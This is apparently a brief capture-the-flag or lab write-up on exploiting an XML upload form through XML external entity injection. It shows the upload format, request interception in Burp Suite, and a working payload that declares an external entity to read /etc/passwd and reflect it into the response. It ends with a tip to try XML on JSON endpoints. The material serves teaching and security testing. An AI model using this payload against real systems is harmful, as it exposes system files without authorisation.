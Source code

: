 ## **Exploitation**

We are given a website with a function to upload an `XML` file with the given format

```xml
<creds> 
<user>test</user> 
<password>test</password> 
</creds>
```

![](https://i.imgur.com/AxSxRTH.png)

We can create a **XML** file with the content as shown above and try to upload it then fire up `burpsuite`, intercept request and send to **repeater**  

![](https://i.imgur.com/AqGNo2c.png)


Surely, as we can see in the above image our result is been passed to the `user` and `password` field, this means we can get our **XML injection** to execute in this area of the response, by using the following payload

```xml
!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<creds> 
<user>&example;</user> 
<password>test</password> 
</creds>
```

![](https://i.imgur.com/dTq4tK8.png)

**Note :** Also try to send XML payload to something that accept `JSON` endpoint as this may still lead to an XML injection attack

